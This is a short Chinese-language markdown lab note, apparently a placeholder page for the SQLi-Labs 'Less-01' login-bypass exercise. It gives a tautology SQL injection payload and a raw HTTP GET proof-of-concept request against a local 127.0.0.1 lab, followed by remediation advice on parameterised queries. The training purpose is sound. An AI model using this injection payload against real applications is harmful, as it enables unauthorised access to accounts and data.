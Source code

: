 ```yaml
---
title: LESS-01 登录绕过
---
```


# LESS-01 登录绕过（占位示例）

**目标**：演示登录输入点的 SQL 注入复现与修复建议（占位内容）。

## 简短复现步骤（占位）
1. 访问：`http://127.0.0.1/sqlilabs/Less-01/?id=1`
2. Payload 示例（占位）：`' OR '1'='1' --+`

## PoC（占位）
GET /sqlilabs/Less-01/?id=1' OR '1'='1' --+ HTTP/1.1
Host: 127.0.0.1

## 修复建议
- 使用参数化查询（Prepared Statements）
- 最小化数据库错误输出

![示例截图](../assets/image/1.png)

添加了吗？
